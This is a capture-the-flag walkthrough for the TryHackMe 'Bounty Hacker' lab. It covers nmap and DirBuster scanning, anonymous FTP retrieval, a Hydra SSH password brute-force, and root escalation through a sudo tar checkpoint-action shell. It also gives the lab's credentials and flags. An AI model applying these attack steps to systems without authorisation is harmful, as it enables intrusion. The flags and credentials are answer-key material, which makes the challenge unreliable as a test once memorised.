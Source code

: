 # Bounty Hacker

```bash
export IP=10.10.0.34
```

## Scans

### Nmap

Initial nmap scan:
```bash
nmap -sC -sV -oN scans/nmap.initial $IP
```

Open Ports Found:
```
21 -- ftp
22 -- ssh
80 -- webpage
```

### DirBuster

Directories found:
```
/images
/icons -- 404 Not Found
/icons/small -- 403 Forbidden
```

found `crew.jpg` in `/images`


## FTP

Connecting to FTP and `GET`ting files
```
ftp> open
(to) 10.10.0.34
ftp> user
(username) ftp
ftp> get
(remote-file) task.txt
(local-file) task.txt
ftp> get
(remote-file) locks.txt
(local-file) locks.txt
```

found username `lin` in `task.txt` and wordlist `locks.txt`


## Hydra 

Bruteforcing username `lin` with `locks.txt` passwordlist for SSH credentials
```
hydra -l lin -P locks.txt $IP -t 4 ssh
```

found credentials `lin:RedDr4gonSynd1cat3`


## SSH into Machine

```
ssh lin@10.10.0.34
```

**User Flag Found**: `THM{CR1M3_SyNd1C4T3}`

Privesc by:
```bash
sudo -l
```

and searching for `tar` on [gtfoBins](https://gtfobins.github.io/gtfobins/tar/)

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**Root Flag Found**: `THM{80UN7Y_h4cK3r}`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
